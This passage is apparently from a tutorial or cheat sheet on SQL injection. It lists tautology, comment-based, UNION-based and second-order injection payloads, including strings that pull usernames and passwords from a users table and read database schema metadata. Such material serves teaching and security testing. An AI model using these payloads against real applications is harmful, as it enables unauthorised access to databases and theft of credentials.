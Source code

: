 #### 2. Tautology Attacks
Using conditions that are always true (tautologies like "1=1" or "OR 'a'='a'").

```sql
-- Always true conditions
1' OR '1'='1
1' OR 1=1--
1' OR 'a'='a'--
1' OR TRUE--

-- Extract all records
' UNION SELECT * FROM users WHERE '1'='1
```

#### 3. Comment Injection
Using SQL comments to bypass query logic.

```sql
-- MySQL/PostgreSQL comments
1'-- comment
1'# comment

-- SQL Server comments
1'/* comment */

-- Multi-line comments
1'/*
multi-line
comment
*/
```

#### 4. UNION Attacks
Combining results from multiple queries.

```sql
-- Determine number of columns
1' ORDER BY 1--  # No error
1' ORDER BY 2--  # No error  
1' ORDER BY 3--  # Error (only 2 columns)

-- Extract data
1' UNION SELECT username, password FROM users--
1' UNION SELECT table_name, column_name FROM information_schema.columns--
```

### Advanced Injection Techniques

#### 1. Second-Order SQL Injection
```sql
-- Step 1: Store malicious data
INSERT INTO comments (user_id, comment) VALUES (1, 'admin''--')

-- Step 2: Malicious data used in subsequent query
SELECT * FROM users WHERE username = 'admin'--'
```

